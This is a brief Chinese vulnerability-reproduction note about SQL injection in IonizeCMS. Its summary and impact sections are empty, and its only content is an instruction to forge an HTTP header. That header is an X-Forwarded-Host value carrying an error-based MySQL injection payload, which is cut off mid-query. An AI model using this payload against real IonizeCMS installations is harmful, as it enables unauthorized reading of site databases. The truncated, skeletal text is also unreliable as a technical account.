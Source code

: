 ```yaml
---
title: IonizeCMS sql注入
id: zhfly2978
---
```


# IonizeCMS sql注入

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

伪造HTTP头注入 在抓包哇：

```
X-Forwarded-Host: 'and(select 1 from(select count(*),concat((select concat(0x5e5e5e,version(),0x5e5e5e) from informat 
```